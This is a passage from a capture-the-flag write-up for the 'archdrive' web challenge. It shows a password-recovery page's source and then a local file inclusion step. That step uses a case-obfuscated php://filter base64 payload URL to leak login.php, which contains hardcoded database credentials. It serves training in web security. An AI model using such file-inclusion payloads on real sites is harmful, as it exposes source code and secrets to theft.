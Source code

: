 ```php
<p>Email sent !</p>
<?php
    }
    ?>


<div class="wrap-input100 validate-input" data-validate = "Valid email is: a@b.c">
<input class="input100" type="text" name="email">
<span class="focus-input100" data-placeholder="Email (only from @archdrive.corp)"></span>
</div>

<div class="container-login100-form-btn">
<div class="wrap-login100-form-btn">
<div class="login100-form-bgbtn"></div>
<button class="login100-form-btn" name="recover">Recover Password</button>
</div>
</div>
</form>
</div>
</div>
</div>


<div id="dropDownSelect1"></div>

<script src="vendor/jquery/jquery-3.2.1.min.js"></script>
<script src="vendor/animsition/js/animsition.min.js"></script>
<script src="vendor/bootstrap/js/popper.js"></script>
<script src="vendor/bootstrap/js/bootstrap.min.js"></script>
<script src="vendor/select2/select2.min.js"></script>
<script src="vendor/daterangepicker/moment.min.js"></script>
<script src="vendor/daterangepicker/daterangepicker.js"></script>
<script src="vendor/countdowntime/countdowntime.js"></script>
<script src="js/main.js"></script>

</body>
</html>
```

### Local file inclusion

The __index.php__ file doesn't work, I didn't succeed to extracted it. Nevermind, there is a __login.php__ file, found in the index form:


![](/lib/images/writeups/2018_santhacklaus/archdrive/archdrive2_1.png)


Then:

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=login.php

```php
<?php
  session_start();

  $state = new \stdClass();

  if ( isset($_POST['email']) && !empty($_POST['email']) ) {
    if ( isset($_POST['pass']) && !empty($_POST['pass']) ) {

      $bdd = mysqli_connect('database:3306', 'archdrive-corpo-bdd-admin', '8mkxdcwwyvtk36snF2b4TcEqSjh4Cc', 'ctf-archdrive-corp');
      if (mysqli_connect_errno()) {
          $state->return = 'error';
```